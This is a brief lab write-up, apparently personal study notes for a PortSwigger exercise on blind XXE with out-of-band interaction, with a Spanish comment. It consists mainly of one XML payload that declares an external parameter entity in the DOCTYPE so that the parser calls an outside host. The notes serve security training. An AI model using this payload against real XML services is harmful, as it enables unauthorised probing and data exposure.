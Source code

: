 Tags: #XXE #PortSwigger 

# Lab 4 Blind XXE with out-of-band interaction via XML parameter entities

```xml 
<!-- Por si no nos dejan colocar entidades, tendriamos que hacerlo en el DOCTYPE -->

<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://1acdc5ay0qrwik98y.otify.com"> %xxe; ]>      
	<root>
		root
	</root>
```

